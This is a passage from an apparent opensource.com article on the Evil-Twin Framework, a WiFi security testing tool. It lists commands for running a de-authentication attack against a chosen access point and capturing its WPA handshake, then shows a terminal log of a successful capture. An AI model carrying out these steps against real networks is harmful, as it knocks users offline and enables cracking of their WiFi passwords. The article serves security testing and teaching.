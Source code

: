 There is more than one way to capture a WPA handshake using the ETF. One way is to use a combination of the AirScanner and AirInjector modules; another way is to just use the AirInjector. The following scenario uses a combination of both modules.

The ETF launches the AirScanner module and analyzes the IEEE 802.11 frames to find a WPA handshake. Then the AirInjector can launch a de-authentication attack to force a reconnection. The following steps must be done to accomplish this on the ETF:

  1. Enter the AirScanner configuration mode: **config airscanner**
  2. Configure the AirScanner to not hop channels: **config airscanner**
  3. Set the channel to sniff the traffic on the access point channel (APC): **set fixed_sniffing_channel = <APC>**
  4. Start the AirScanner module with the CredentialSniffer plugin: **start airscanner with credentialsniffer**
  5. Add a target access point BSSID (APS) from the sniffed access points list: **add aps where ssid = <APS>**
  6. Start the AirInjector, which by default lauches the de-authentication attack: **start airinjector**



This simple set of commands enables the ETF to perform an efficient and successful de-authentication attack on every test run. The ETF can also capture the WPA handshake on every test run. The following code makes it possible to observe the ETF's successful execution.

```
███████╗████████╗███████╗
██╔════╝╚══██╔══╝██╔════╝
█████╗     ██║   █████╗  
██╔══╝     ██║   ██╔══╝  
███████╗   ██║   ██║    
╚══════╝   ╚═╝   ╚═╝    
                                       

[+] Do you want to load an older session? [Y/n]: n
[+] Creating new temporary session on 02/08/2018
[+] Enter the desired session name:
ETF[etf/aircommunicator/]::> config airscanner
ETF[etf/aircommunicator/airscanner]::> listargs
  sniffing_interface =               wlan1; (var)
              probes =                True; (var)
             beacons =                True; (var)
        hop_channels =               false; (var)
fixed_sniffing_channel =                  11; (var)
ETF[etf/aircommunicator/airscanner]::> start airscanner with
arpreplayer        caffelatte         credentialsniffer  packetlogger       selfishwifi        
ETF[etf/aircommunicator/airscanner]::> start airscanner with credentialsniffer
[+] Successfully added credentialsniffer plugin.
[+] Starting packet sniffer on interface 'wlan1'
[+] Set fixed channel to 11
ETF[etf/aircommunicator/airscanner]::> add aps where ssid = CrackWPA
ETF[etf/aircommunicator/airscanner]::> start airinjector
ETF[etf/aircommunicator/airscanner]::> [+] Starting deauthentication attack
                    - 1000 bursts of 1 packets
                    - 1 different packets
[+] Injection attacks finished executing.
[+] Starting post injection methods
[+] Post injection methods finished
[+] WPA Handshake found for client '70:3e:ac:bb:78:64' and network 'CrackWPA'
```


[#]: collector: (lujun9972)
[#]: translator: ( )
[#]: reviewer: ( )
[#]: publisher: ( )
[#]: url: ( )
[#]: subject: (The Evil-Twin Framework: A tool for improving WiFi security)
[#]: via: (https://opensource.com/article/19/1/evil-twin-framework)
[#]: author: (André Esser https://opensource.com/users/andreesser)
[a]: https://opensource.com/users/andreesser
[b]: https://github.com/lujun9972
[1]: https://en.wikipedia.org/wiki/Rogue_access_point
[2]: https://www.python.org/
[3]: https://scapy.net
[4]: /file/417776
[5]: https://opensource.com/sites/default/files/uploads/pic1.png (Evil-Twin Framework Architecture)
[6]: https://www.metasploit.com
[7]: /file/417781
[8]: https://opensource.com/sites/default/files/uploads/pic2.png (Scenario for capturing a WPA handshake after a de-authentication attack)
[9]: https://en.wikipedia.org/wiki/Address_Resolution_Protocol
[10]: /file/417786
[11]: https://opensource.com/sites/default/files/uploads/pic3.png (Scenario for capturing a WPA handshake after a de-authentication attack)
[12]: /file/417791
[13]: https://opensource.com/sites/default/files/uploads/pic4.png (Scenario for capturing a WPA handshake after a de-authentication attack)
[14]: https://github.com/Esser420/EvilTwinFramework
